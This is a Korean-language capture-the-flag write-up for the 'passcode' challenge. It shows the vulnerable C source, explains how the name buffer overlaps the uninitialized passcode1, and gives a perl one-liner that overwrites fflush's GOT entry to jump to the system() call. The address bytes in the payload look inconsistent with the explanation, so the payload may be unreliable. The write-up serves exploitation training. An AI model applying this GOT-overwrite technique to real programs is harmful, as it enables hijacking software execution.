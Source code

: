 # passcode

이 문제는 passcode1 과 passcode2 값을 각각의 조건에 만족시키면 flag 를 출력한다. <소스코드 참조>

&nbsp;

처음 welcome() 함수에서 100byte 만큼 입력받은 후, login() 함수에서 passcode1 의 주소에 값을 입력받는다.

일반적으로 유효한 주소가 아닌 값이 저장되어 있기에 "Segmentation fault" 를 출력하며 종료된다. 

&nbsp;

해결 방법은 이 passcode1 에 저장된 값을 유효한 주소로 만들어주면 된다. 아래의 스택 구조를 참고하자.

welcome() 함수에서 입력받는 name 변수의 100 byte 중 마지막 4 byte 는 passcode1 의 값이다. 이 passcode1 의 값을 fflush() 의 got 주소를 저장한 후, passcode1 을 입력받을 때, system() 가 실행되는 주소를 입력해주면 플래그를 출력하게 될 것이다.

welcome() stack : | 96 byte | 4 byte (passcode1) |

&nbsp;

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
        int passcode1;
        int passcode2;

        printf("enter passcode1 : ");
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 : ");
        scanf("%d", passcode2);

        printf("checking...\n");
        if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
                exit(0);
        }
}

void welcome(){
        char name[100];
        printf("enter you name : ");
        scanf("%100s", name);
        printf("Welcome %s!\n", name);
}

int main(){
        printf("Toddler's Secure Login System 1.0 beta.\n");

        welcome();
        login();

        // something after login...
        printf("Now I can safely trust you that you have credential :)\n");
        return 0;
}
```

최종 페이로드는 다음과 같다.

* (perl -e 'print "\x90"x96, "\x48\x4a\xbb\xff", "134514147"') | ./passcode